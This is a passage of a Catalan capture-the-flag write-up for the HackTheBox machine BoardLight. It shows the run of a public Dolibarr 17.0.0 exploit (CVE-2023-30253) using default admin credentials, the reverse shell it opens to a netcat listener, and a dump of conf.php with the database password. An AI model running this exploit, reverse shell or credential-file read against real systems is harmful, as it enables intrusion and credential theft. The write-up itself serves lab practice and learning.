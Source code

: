 I haurem de llençar l'exploit amb la següent config:

```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.90 4444
```

El POC funciona perfectament, al executar-lo: 

```
┌──(root㉿kaliPol)-[/home/polkali/Documents/BoardLight/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253]
└─# python3 exploit.py http://crm.board.htb admin admin 10.10.14.90 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection`
```

Ens crea la reverse shell:

```
┌──(polkali㉿kaliPol)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.11.11] 35490
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ `
```

Ara, com que hi som dins del CRM Dolibarr, busquem per internet com es configura, a veure si trobem algun fitxer que podem "remenar". Sembla que hi ha un fitxer que es diu conf.php que podria ser interessant:

![image](https://github.com/user-attachments/assets/6dcfc208-ef09-43e4-a6f9-2c48b32b46c5)

I al següent directori trobem el fitxer conf.php:

```
`www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls
ls
conf.php
conf.php.example
conf.php.old`
```

Al fitxer conf.php hi trobem unes credencials d'usuari que sembla que ens podrien ser molt útils, semblen d'una base de dades, ja que sembla que s'utilitzen per connectar amb una BD:

```
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```